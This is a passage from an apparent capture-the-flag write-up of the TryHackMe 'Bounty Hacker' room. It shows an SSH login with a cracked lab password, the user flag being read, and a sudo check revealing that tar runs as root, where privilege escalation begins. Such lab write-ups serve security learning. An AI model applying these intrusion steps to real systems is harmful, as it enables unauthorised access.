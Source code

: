 
Now we can connect with **lin : <span style="color: rgb(45, 194, 107);">RedDr4gonSynd1cat3</span>**

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Bounty]
└─$ ssh lin@bounty.thm       
The authenticity of host 'bounty.thm (10.10.58.207)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bounty.thm' (ED25519) to the list of known hosts.
lin@bounty.thm's password: 
Permission denied, please try again.
lin@bounty.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```

## HTTP (80)

<img src="../../Flameshots/23662abdc395d0c0c864d28502cabaae.png" alt="23662abdc395d0c0c864d28502cabaae.png" width="597" height="296" class="jop-noMdConv">

# Privilege Escalation

We check for sudo commands for the [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md):

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```
